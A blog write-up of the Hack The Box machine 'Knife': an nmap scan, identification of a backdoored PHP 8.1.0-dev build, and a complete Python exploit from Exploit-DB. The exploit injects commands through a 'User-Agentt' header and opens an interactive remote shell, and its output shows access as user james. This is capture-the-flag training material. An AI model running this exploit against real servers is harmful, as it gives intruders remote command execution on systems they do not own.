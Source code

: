 ```yaml
---
title: HTB - Knife (EN)
author: gpandres
date: 2021-09-08 20:00:00 +0800
categories: [Cybersecurity,HTB,WriteUps]
tags: [HTB,Knife,PHP,GTFOBin,Backdoor]
---
```




![knifeimg](https://gpandres.github.io/assets/img/posts/knife/knife.jpeg)


<h3 data-toc-skip>We'll start scanning ports with NMAP.</h3>


```console
$ nmap -v 10.10.10.242
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-08 18:20 CEST
Initiating Ping Scan at 20:20
Scanning 10.10.10.242 [2 ports]
Completed Ping Scan at 20:20, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:20
Completed Parallel DNS resolution of 1 host. at 20:20, 0.03s elapsed
Initiating Connect Scan at 20:20
Scanning 10.10.10.242 [1000 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed Connect Scan at 20:20, 9.31s elapsed (1000 total ports)
Nmap scan report for 10.10.10.242
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

<h3 data-toc-skip>Looks like we have a web server and SSH service. Let's try to see what is on the web.</h3>

![knifeweb](https://gpandres.github.io/assets/img/posts/knife/knifeweb.png)

<h3 data-toc-skip>It is a hospital, but I haven't found anything useful on the web.</h3>

<h3 data-toc-skip>With Wappalyzer we can discover what technologies are used to create a website.</h3>

![knifewappalyzer](https://gpandres.github.io/assets/img/posts/knife/knifewappalyzer.png)

<h3 data-toc-skip>Alright, let's search for vulnerabilities for these technologies.</h3>

<h3 data-toc-skip>There's a vulnerability for PHP 8.1.0dev.</h3>
![knifesearch](https://gpandres.github.io/assets/img/posts/knife/knifesearch.png)
<https://www.exploit-db.com/exploits/49933>

<h3 data-toc-skip>I copied the script and executed</h3>


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit

```


```console
$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acess tty; job crontol turned off.
$ whoami
james
```
<h3 data-toc-skip>We are in!</h3>















